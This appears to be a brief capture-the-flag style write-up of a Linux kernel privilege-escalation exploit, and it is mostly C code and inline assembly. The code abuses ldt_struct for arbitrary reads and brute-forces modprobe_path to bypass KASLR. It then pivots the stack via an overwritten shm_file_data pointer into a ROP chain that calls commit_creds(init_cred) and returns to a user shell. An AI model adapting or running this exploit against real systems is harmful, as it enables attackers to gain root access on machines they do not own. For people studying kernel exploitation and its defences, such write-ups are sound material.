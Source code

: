  Use `ldt_struct` for arbitrary read:

```c
struct ldt_struct {
	struct desc_struct	*entries;
	unsigned int		nr_entries;
	int			slot;
};
```

Bruteforce modprobe_path to defeat KASLR :
```c
    uint64_t modprobe_path = 0xfffffffff006c140;

    char buf[15] = {0};

    for(modprobe_path ; modprobe_path >= 0xffffffff8266c140 ; modprobe_path -= 0x100000){

        if(writeNote(modprobe_path)){
            errExit("writeNote(modprobe_path)");
        }

        memset(buf,0,sizeof(buf));

        if(syscall(SYS_modify_ldt,0,buf,sizeof(buf)) < 0){
            errExit("syscall(SYS_modify_ldt,0,buf,sizeof(buf))");
        }

        if(strcmp(buf,"/sbin/modprobe") == 0)
            break;
        if((0xfffffffff006c140 - modprobe_path) % 0x1000000 == 0)
            logInfo("Scan 0x%lx", modprobe_path);
    }
    logOK("modprobe_path = 0x%lx", modprobe_path);
    _text = modprobe_path - 23511360;
```

Overwrite `shm_file_data->start` to gadget: `add rsp, 0x0000000000000180 ; mov eax, r12d ; pop rbx ; pop r12 ; pop rbp ; ret ;` -> ROP with pt_reg struct in usermod.

```c
void trigger(int stat_fd){
    __asm__(
        ".intel_syntax noprefix;"
        "mov r15, %0 ;" // pop rdi ; ret
        "mov r14, init_cred ;" // NULL
        "mov r13, commit_creds ;"
        "mov r12, %1 ;" // pop rcx ; ret
        "lea rbp, [get_shell + 8] ;" // user_ip
        "mov rbx, %2 ;"  // pop r11 ; ret -> r11 is user_rflags
        "mov r10, %3 ;"  // syscall_return_via_sysret+24
        "mov rdx, 0x4343;"
        "mov rsi, 0x4242;"
        "xor eax, eax; "
        "syscall;"
        ".att_syntax;"
        :
        : "r" (_text + 0x75c4c), "r"(_text + 0x761da), "r"(_text + 0x7605a) , "r"(_text + 0xc00109)
    );
}
```

Set `rcx = user_ip`, `r11 = user_rflags` for `syscall_return_via_sysret+24` -> safely back to usermod.
